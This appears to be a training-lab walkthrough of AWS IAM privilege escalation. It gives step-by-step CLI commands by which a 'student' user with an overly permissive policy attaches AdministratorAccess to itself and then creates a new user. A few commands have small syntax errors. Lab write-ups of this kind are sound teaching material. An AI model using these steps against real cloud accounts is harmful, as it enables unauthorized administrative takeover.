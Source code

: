 # Overly permissive permission I

Overly Permissive Permission can be abused by a user to perform privileged operations.

Objective: Leverage the policy attached to the student user and attain administrative privileges on the AWS account.

----

1. Get access to AWS lab credentials.
2. Configure AWS CLI.
3. Check identity with:

```text
aws sts get-caller-identity
```

4. List the policies attached to the `student` user:

```text
aws iam list-attached-user-policies --user-name student
```

5. Check policy details for the Service policy:

```text
aws iam get-policy --policy-arn arn:aws:iam::607486832336:policy/Service
```

6. View policy details for the v1 version of Service policy:

```text
aws iam get-policy-version --policy-arn arn:aws:iam::607486832336:policy/Service --version-id v1
```

7. Try creating a new user, named bob:

```text
aws iam create-user --user-name Bob
```

FAIL.

8. Get `AdministratorAccess` policy `arn`:

```text
aws iam list-policies | grep ‘AdministratorAccess’
```

9. Attach administrator policy to the current user:

```text
aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

10. Check with:

```text
aws iam list-attached-policies --user-name student
```

11. Try creating a new user named Bob again:

```text
aws iam create-user -user-name Bob
```

Successfully performed a privileged operation.
